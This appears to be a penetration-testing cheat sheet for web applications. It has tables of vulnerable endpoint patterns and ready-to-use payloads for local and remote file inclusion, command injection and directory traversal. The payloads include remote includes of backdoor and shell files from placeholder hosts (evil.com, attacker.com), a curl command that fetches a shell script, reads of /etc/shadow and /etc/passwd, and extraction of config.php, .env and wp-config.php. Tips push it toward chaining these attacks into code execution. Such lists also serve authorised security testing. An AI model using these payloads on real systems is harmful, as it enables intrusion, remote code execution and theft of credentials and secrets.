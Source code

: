 ## 📁 FILE INCLUSION (LFI & RFI) — Local & Remote File Loaders

| Location Used | Endpoint Example | Method | Input Vector | Attack Surface / Clue | Sample Payload |
|---------------|------------------|--------|---------------|------------------------|----------------|
| Web Page Loader | `/index.php?page=home` | GET | `page` | Includes files like templates or HTML | `?page=../../../../etc/passwd` |
| Theme/Language Selectors | `/app.php?lang=en` | GET | `lang` | Loads language templates | `?lang=php://filter/convert.base64-encode/resource=config.php` |
| Plugin/Module loaders | `/loadmodule.php?mod=gallery` | GET | `mod` | Includes plugin logic dynamically | `?mod=http://evil.com/backdoor.txt` |
| API Templating | `/api/render` | POST | `template_name` | JSON body, server-side includes | `{"template_name": "http://attacker.com/shell.php"}` |
| Web Logs Viewer | `/admin/viewlog?file=access.log` | GET | `file` | File viewer for logs or archives | `?file=../../../../../../etc/shadow` |

🔍 **Tips**:
- RFI mostly works with PHP <5.3 or outdated configs (`allow_url_include=On`)
- Combine LFI with **Apache logs**, **access logs**, or **proc/self/environ** for code execution!

---

## 🧨 COMMAND INJECTION — When Your Input Talks to the Shell

| Endpoint | Method | Parameter | Indicator | Injection Sample |
|----------|--------|-----------|-----------|------------------|
| `/ping?host=127.0.0.1` | GET | `host` | Runs shell utility (`ping`, `traceroute`) | `127.0.0.1; id` |
| `/backup?filename=report` | GET | `filename` | Backup/restore scripts | `report; ls -la` |
| `/network/scan` | POST | `target` (JSON) | Accepts user input for system scanning | `{"target": "127.0.0.1 && whoami"}` |
| `/printer.cgi` | GET | Form field | Often legacy CGI scripts vulnerable | `test|curl http://attacker/shell.sh` |
| `/archive/create` | POST | `folder` | Compresses files (zip/tar) | `folder=/tmp; cat /etc/passwd` |

🛡 **Tips**:
- Try **blind techniques**: `; sleep 5`, `| ping -c 4 attacker.com`
- Test POST JSON too. APIs are goldmines.
- Check logs/headers if output is hidden (Blind CI)

---

## 🗂 DIRECTORY TRAVERSAL — Escaping the Jail

| Endpoint | Method | Param | Where it Hits | Payload |
|----------|--------|--------|---------------|---------|
| `/view?file=about.html` | GET | `file` | Reads local server files | `?file=../../../../etc/passwd` |
| `/download.php?doc=invoice.pdf` | GET | `doc` | User documents/downloads | `?doc=../../../../../../boot.ini` |
| `/readfile` | POST | `path` | JSON or Form input | `{"path": "../../../../etc/shadow"}` |
| `/log?name=log1.txt` | GET | `name` | Log viewer or config | `?name=../../../wp-config.php` |
| `/static/file` | GET | `filename` | Public file loaders | `?filename=../../../app.py` |

🎯 **Targets to Traverse**:
- `/etc/passwd`, `/etc/shadow`, `boot.ini`, `web.xml`
- Apache logs: `/var/log/apache2/access.log`
- App config: `.env`, `config.php`, `db.yml`

🧠 **Traversal + LFI** → Lethal combo. Especially if `include($_GET[‘page’])` exists.
